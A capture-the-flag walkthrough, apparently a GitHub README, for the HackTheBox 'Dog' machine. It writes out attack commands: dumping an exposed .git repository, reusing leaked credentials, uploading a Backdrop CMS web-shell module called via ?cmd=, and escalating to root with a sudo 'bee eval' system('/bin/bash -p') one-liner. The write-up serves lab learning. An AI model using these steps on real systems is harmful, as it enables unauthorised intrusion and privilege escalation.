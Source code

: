 # Dog CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Dog** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Dog). 
---

we see open ports 22 and 80

![scn](imgs/scn.png "scn")

we also see multiple directories in robots.txt

![rb](imgs/rb.png "rb")

/core/ is pretty interesting one

![cor](imgs/cor.png "cor")

we see that website is run via Backdrop CMS

we also can scan for hidden directories

![gt](imgs/gt.png "gt")

we found .git , so we can dump it by using git-dumper

```
git-dumper http://$IP/.git src
```

![dm](imgs/dm.png "dm")

in dumped files (settings.php) we can find some info about database and possible password

![se](imgs/se.png "se")

i tried to login with those credentials but they didnt seem to work, we have unrecognized user

![lg](imgs/lg.png "lg")

we might try to find other users

i used this command to find email address inside dumped files

```
grep -rE -o "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}" src
```

![gr](imgs/gr.png "gr")

i found `tiffany@dog.htb` , and we can log in as her

![ti](imgs/ti.png "ti")

![p](imgs/p.png "p")

![ad](imgs/ad.png "ad")

i found an exploit that might land use remote code execution `https://www.exploit-db.com/exploits/52021` plus in admin panel we see that we are using this backdrop version

![v](imgs/v.png "v")

![db](imgs/db.png "db")

![sc](imgs/sc.png "sc")

it didnt work but it suggests to manually install a module, so we can try that, 

first we unzip the archive that script created, then we archive the unziped folder to .tar.gz

```
tar -czvf shell.tar.gz shell
```

![s1](imgs/s1.png "s1")

![s2](imgs/s2.png "s2")

after uploading we can access

```
http://10.10.11.58/modules/shell/shell.php?cmd=id
```

![id](imgs/id.png "id")

we got shell access

![www](imgs/www.png "www")

we see user in /home

i tested the password that we already had to test if we can login with it, and it worked we now have access as `johncusack` (i uploaded my public key to not lose access)

![us](imgs/us.png "us")

now we can grab user flag

![uss](imgs/uss.png "uss")

looking at the sudo -l output

![sl](imgs/sl.png "sl")

we can run command /usr/local/bin/bee, we see that there is option eval that might be helphul

![ev](imgs/ev.png "ev")

![evv](imgs/evv.png "evv")

![ro](imgs/ro.png "ro")

looking at documentation we need to use command

```
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("/bin/bash -p")'
```

now we have root access and root flag

![rt](imgs/rt.png "rt")

# MACHINE PWNED
